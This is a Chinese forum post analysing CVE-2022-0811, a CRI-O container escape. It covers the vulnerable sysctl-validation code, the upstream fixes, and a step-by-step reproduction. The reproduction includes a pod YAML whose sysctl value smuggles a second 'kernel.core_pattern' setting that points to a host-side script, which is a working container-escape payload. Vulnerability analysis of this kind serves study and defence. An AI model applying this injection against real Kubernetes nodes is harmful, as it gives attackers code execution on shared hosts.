


# [漏洞分析] CVE-2022-0811 CRI-O容器逃逸漏洞分析

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1906213
- 抓取时间: 2026-11-01T21:54:52

之前我在GitHub上也发过（原文：[//github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2022-0811/README.md"](https://github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2022-0811/README.md:rel="nofollow noopener" href="https)），在这里也发一下。

## 漏洞分析

CVE-2022-0811是一个`CRI-O`漏洞，利用这个漏洞可以在创建容器时绕过`CRI-O`的限制，设置任意内核参数，并影响同一k8s节点下的其他容器。

在创建容器的时候，`CRI-O`通过`pinns`来设置内核参数，格式如下：

```bash
pinns -s key1=val1+key2=val2
```

可以看到`pinns`使用“`+`”字符来分割每个键值对。在调用`pinns`之前，`CRI-O`会先检查每个`key`的前缀，只有在`key`的前缀在白名单里时，才允许设置内核参数 [1.1]：

```go
var prefixNamespaces = map[string]Namespace{
    "kernel.shm": IpcNamespace,
    "kernel.msg": IpcNamespace,
    "fs.mqueue.": IpcNamespace,
    "net.":       NetNamespace,
}

// Validate checks that a sysctl is whitelisted because it is known to be
// namespaced by the Linux kernel. The parameters hostNet and hostIPC are used
// to forbid sysctls for pod sharing the respective namespaces with the host.
// This check is only used on sysctls defined by the user in the crio.conf
// file.
func (s *Sysctl) Validate(hostNet, hostIPC bool) error {
    ......
    for p, ns := range prefixNamespaces {
        if strings.HasPrefix(s.Key(), p) {
            if ns == IpcNamespace && hostIPC {
                return errors.Errorf(nsErrorFmt, s.Key(), ns)
            }
            if ns == NetNamespace && hostNet {
                return errors.Errorf(nsErrorFmt, s.Key(), ns)
            }
            return nil
        }
    }
    return errors.Errorf("%s not whitelisted", s.Key())
}
```

如同前面提到的那样，`CRI-O`在调用`pinns`的时候，是直接把每个键值对用“`+`”拼接起来的 [1.2]：

```go
func getSysctlForPinns(sysctls map[string]string) string {
    // this assumes there's no sysctl with a `+` in it
    const pinnsSysctlDelim = "+"
    g := new(bytes.Buffer)
    for key, value := range sysctls {
        fmt.Fprintf(g, "'%s=%s'%s", key, value, pinnsSysctlDelim)
    }
    return strings.TrimSuffix(g.String(), pinnsSysctlDelim)
}
```

然而，上面的检查操作并没有对`value`进行检查，因此，可以通过在内核参数的`value`中加入另一对键值对来绕过`key`的检查，例如“`value1+key2=value2`”，其中`key2`和`value2`就是另一个内核参数的键值对，这样，最终调用`pinns`时的参数就是“`key1=value1+key2=value2`”，`key2`绕过了检查，但仍会被`pinns`识别并设置。

## 复现

### 环境

- Linux: Ubuntu 20.04
- Kubernetes: 1.23.4
- CRI-O: 1.23.1

### 步骤

创建一个新的Pod，配置文件内容如下：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-a
spec:
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```

进入`pod-a`的`shell`：

```bash
kubectl create -f pod-a.yaml
kubectl exec -it pod-a -- /bin/sh
```

通过`mount`命令，可以得到如下结果：



`pod-a_mount.png` (368.82 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=MjY4NTU2Nnw4MzQwNzVhOHwxNzkzNTcwMDkwfDE2ODA4NnwxOTA2MjEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY4NTU2Nnw4MzQwNzVhOHwxNzkzNTcwMDkwfDE2ODA4NnwxOTA2MjEz&nothumb=yes)

2024-3-26 16:24 上传

其中，`upperdir`为 `/var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff` ，这是内核到容器根目录的路径。

创建一个脚本文件`malicious.sh`，内容为：

```bash
#!/bin/sh

date >> /var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff/output
```

用`chmod +x`为这个文件添加执行权限，然后在根目录下`touch`一个`output`文件。

接下来创建另一个Pod，`yaml`内容为：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-b
spec:
  securityContext:
   sysctls:
   - name: kernel.shm_rmid_forced
     value: "1+kernel.core_pattern=|/var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff/malicious.sh #"
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```

再次进入`pod-a`的`shell`，获取 `/proc/sys/kernel/core_pattern` 的内容：


`pod-a_cat_core_pattern.png` (147.86 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=MjY4NTU2N3w0MmY3ZmI2ZHwxNzkzNTcwMDkwfDE2ODA4NnwxOTA2MjEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY4NTU2N3w0MmY3ZmI2ZHwxNzkzNTcwMDkwfDE2ODA4NnwxOTA2MjEz&nothumb=yes)

2024-3-26 16:25 上传

触发漏洞：



`pod-a_trigger_vul.png` (515.1 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=MjY4NTU2OHxiMzU3OTk2OXwxNzkzNTcwMDkwfDE2ODA4NnwxOTA2MjEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY4NTU2OHxiMzU3OTk2OXwxNzkzNTcwMDkwfDE2ODA4NnwxOTA2MjEz&nothumb=yes)

2024-3-26 16:25 上传

此时再次查看`output`文件，就可以得到脚本输出的内容：


`pod-a_cat_output.png` (38.07 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=MjY4NTU2OXw3MjQ4OTAzZHwxNzkzNTcwMDkwfDE2ODA4NnwxOTA2MjEz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY4NTU2OXw3MjQ4OTAzZHwxNzkzNTcwMDkwfDE2ODA4NnwxOTA2MjEz&nothumb=yes)

2024-3-26 16:25 上传

## 官方修复

`CRI-O`官方发布了两个修复版本，第一个版本对`key`和`value`都进行检查，判断里面是否包含“`+`”，如果包含则会返回错误 [3.1]：

```go
for key, value := range sysctls {
    if strings.Contains(key, pinnsSysctlDelim) || strings.Contains(value, pinnsSysctlDelim) {
        return "", errors.Errorf("'%s=%s' is invalid: %s found yet should not be present", key, value, pinnsSysctlDelim)
    }
    fmt.Fprintf(g, "'%s=%s'%s", key, value, pinnsSysctlDelim)
}
```

第二个版本则是修改了`pinns`的调用方式，通过多个“`-s`”来设置多个内核参数，而不是像之前那样用“`+`”拼接起来 [3.2]：

```go
for key, value := range cfg.Sysctls {
    pinnsArgs = append(pinnsArgs, "-s", fmt.Sprintf("%s=%s", key, value))
}
```

## 参考

[1.1] [//github.com/cri-o/cri-o/blob/v1.23.1/pkg/config/sysctl.go#L73"](https://github.com/cri-o/cri-o/blob/v1.23.1/pkg/config/sysctl.go#L73:rel="nofollow noopener" href="https)

[1.2] [//github.com/cri-o/cri-o/blob/v1.23.1/internal/config/nsmgr/nsmgr.go#L174"](https://github.com/cri-o/cri-o/blob/v1.23.1/internal/config/nsmgr/nsmgr.go#L174:rel="nofollow noopener" href="https)

[2.1] [//www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/"](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/:rel="nofollow noopener" href="https)

[2.2] [//zone.huoxian.cn/d/1003-kubernetes-cri-ocve-2022-0811"](https://zone.huoxian.cn/d/1003-kubernetes-cri-ocve-2022-0811:rel="nofollow noopener" href="https)

[3.1] [//github.com/cri-o/cri-o/commit/c0b2474b80fd0844b883729bda88961bed7b472b"](https://github.com/cri-o/cri-o/commit/c0b2474b80fd0844b883729bda88961bed7b472b:rel="nofollow noopener" href="https)

[3.2] [//github.com/cri-o/cri-o/commit/76f1301c9eb979cbecdbbbb41ed72774285a814c"](https://github.com/cri-o/cri-o/commit/76f1301c9eb979cbecdbbbb41ed72774285a814c:rel="nofollow noopener" href="https)
